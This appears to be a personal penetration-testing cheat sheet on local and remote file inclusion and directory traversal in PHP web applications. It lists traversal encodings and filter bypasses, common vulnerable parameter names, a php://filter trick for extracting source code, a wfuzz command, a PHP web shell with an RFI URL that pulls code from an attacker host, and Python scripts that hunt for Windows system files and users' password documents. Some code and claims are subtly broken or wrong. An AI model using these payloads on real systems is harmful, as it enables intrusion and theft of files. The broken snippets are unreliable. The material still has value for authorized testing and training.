 # File Inclusion And Directory Traversal

File Inclusion facilitation stems from Directory traversal vulnerabities. Directory traversal or path path traversal are identifiable by an ability to manipulate file paths with cli-esque: `../` or `..\` characters to change directory from the webpage beeing attacked. For [[Log-Poisoning]]

## Indication of Vulnerability

Locate parameteres and test for manipulation and arbitrary file reading.
1. URL query strings
	1. file extensions in URL query strings
1. Form bodies in search of values that appear as file references

Readable files by the `www-data` or account used to host the web server can be then be tested from the starting position of the web root directory such Linux's `/etc/passwd` or Window's `C:boot.ini`   

Warning messages can then reveal which functions are used in invalid parameter passing of one the above files.

## Traversal encoding:

Remember this is a guide to ideas of how to encode lfi, encoding payloads on the fly not from here.
```
../
..\
..\/
../etc/passwd\.\	# Path and dot truncation
../etc/passwd/./
%2e%2e%2f
%252e%252e%252f 	# Double encoding
%c0%ae%c0%ae%c0%af	# utf-8 encoding
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
....\
%00					# null byte
....////			# filter bypass
/%5C../%5C..

```

##  File inclusion Types

Local File Inclusion are occurent when the included file is present on the web server; Remote File Inclusion when a file is loaded from a remote source. Each is dependent of the language the  application is written in and server configuration.

For Windows files [[DT-FI-Windows-Files]]; for Linux files [[DT-FI-Linux-Files]]

## Indication of FIs

Locate parameteres and test for manipulation and arbitrary file execution.

Rabbit holes \/ Pitfalls:
1. Modern PHP versions disables remote URL includes
2. Routing and firewall rules regarding **ATTACKER PORT USAGE!** for connecting back to local attacking IP

## Testing

1. Invalid input
2. Regular page - index.php
3. Imply filter `php://filter/convert.base64-encode/resource=` to exfil php source code
4. Host a remote file and test for remote file inclusion
	1. Wrappers `http://`, `ftp://`
	2. `expect://`

## Vulnerable Functions 
Language | LFI/RFI | Function | Caveats | RTFM
--- | --- | --- | ---
[[Vulnerable-PHP-Functions]] | Both | `include()` | `badquery?file=` then `php://filter/convert.base64-encode/resources=` | https://www.php.net/manual/en/function.include.php

## Indictions of (L|R)FIs - Functions
#### PHP
```php
// php.ini values:
register_globals
allow_url
```
RFI
```php
allow_url_include # Modern default is On, but RFI if off
```
[Older PHP apps have nullbyte vulnerability](https://www.php.net/manual/en/security.filesystem.nullbytes.php) 

## Wrappers
#### PHP
[RTFM PHP Wrappers](https://www.php.net/manual/en/wrappers.php)
```php
?data:text/plain,<?php echo shell_exec("dir") ?>
?base64:
```

## Parametres
[Hacktricks reference TR Bug Hunters](https://twitter.com/trbughunters/status/1279768631845494787)
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```

## Fuzz for files
```bash
wfuzz -c -w ./lfi2.txt --hw 0 http://10.10.10.10/nav.php?page=../../../../../../../FUZZ
```

## Phpinfolfi

[[PHP-Webserver-Commonalities]], and phpinfo pages contain both the configuration for whether uploads are enabled but also  PHP Variables section that be then check after attempting upload.

```
Content-Type: multipart/form-data; boundary=BadFileFromBurp
Content-Length: 0

----BadFileFromBurp
Content-Disposition: form-data; name="anything"; filename="BadFile"
Content-Type: text/plain

This is Bad File from burp that will appear in the PHP info page as_FILE["anything"]
----BadFileFromBurp
```

[Payload all the things](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py)



## RFI Local Serving Payloads
```php
<?php echo shell_exec($_GET['cmd']); ?>
# For similar:
# http://poor_web_server/bad.php?file=http://attacker_ip/evil.txt&cmd=whoami
```


## Appendix
Script LFI starting 
ON TODO LIST
[rapid7 blog](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)

```python
import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
pages = ['WINDOWS/system32/drivers/etc/hosts', 'WINDOWS/system32/win.ini', 'WINDOWS/system32/debug/NetSetup.log', 'WINDOWS/system32/config/AppEvent.Evt', 'WINDOWS/system32/config/SecEvent.Evt', 'WINDOWS/Panther/unattend.txt', 'WINDOWS/Panther/unattend.xml', 'WINDOWS/Panther/unattended.xml', 'WINDOWS/Panther/sysprep.inf']
 
for x in pages:
                  check = requests.get(url + LFI + x)
                  if check.status_code == 200:
                                    webbrowser.open(url + LFI + x)

import requests
import webbrowser
 
 
url = 'http://www.testpage.com?page='
 
LFI = '../../../../../../../../../'
 
usernames = ['bob.jones', 'tom.johnson', 'mary.thomas', 'bill.smith']
 
desktopini = '/Desktop/desktop.ini'
 
usersfiles = ['accounts.txt', 'passwords.doc', 'configs.txt', 'sensitiveinfo.doc']
 
for x in usernames:
                  check = requests.get(url + LFI + x + desktopini)
                  if check.status_code == 200:
                                    print(‘User ’ + x + ‘was found’)
                                    desktopsearch = requests.get(url + LFI + '/Desktop/' + usersfiles)
                                    if desktopsearch.status_code == 200:
                                                      webbrowser.open(url + LFI + '/Desktop/' + usersfiles)
```
						


## References

[certcube](https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/)
[Kory Kyzar](https://gist.github.com/korrosivesec)
[rapid7](https://www.rapid7.com/blog/post/2016/07/29/pentesting-in-the-real-world-local-file-inclusion-with-windows-server-files/)
[Older PHP apps have nullbyte vulnerability](https://www.php.net/manual/en/security.filesystem.nullbytes.php) 
[RTFM PHP Wrappers](https://www.php.net/manual/en/wrappers.php)